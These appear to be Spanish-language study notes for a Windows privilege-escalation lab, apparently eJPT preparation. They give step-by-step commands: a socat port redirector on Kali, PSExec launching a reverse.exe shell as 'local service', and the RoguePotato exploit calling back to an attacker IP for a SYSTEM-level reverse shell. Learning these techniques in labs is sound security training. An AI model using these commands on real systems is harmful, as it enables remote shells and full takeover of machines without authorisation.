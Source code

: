 
- Configure un redirector de socat en Kali, reenviando el puerto Kali 135 al puerto 9999 en Windows:

```
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.94.6:9999
```

- Comience un oyente en Kali. Simule la obtención de un shell de cuenta de servicio iniciando sesión en RDP como usuario administrador, iniciando un símbolo del sistema elevado (haga clic derecho -> ejecutar como administrador) y utilizando PSExec64.exe para activar el ejecutable reverse.exe que creó con los permisos de la cuenta "servicio local:

```
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

- Comience otro oyente en Kali.

- Ahora, en el shell inverso "servicio local" que activó, ejecute el exploit RoguePotato para activar un segundo shell inverso que se ejecuta con privilegios SYSTEM (actualice la dirección IP con su IP Kali en consecuencia):

```
C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Herramientas]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Token Impersonation - PrintSpoofer]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Generate a Reverse Shell Executable]]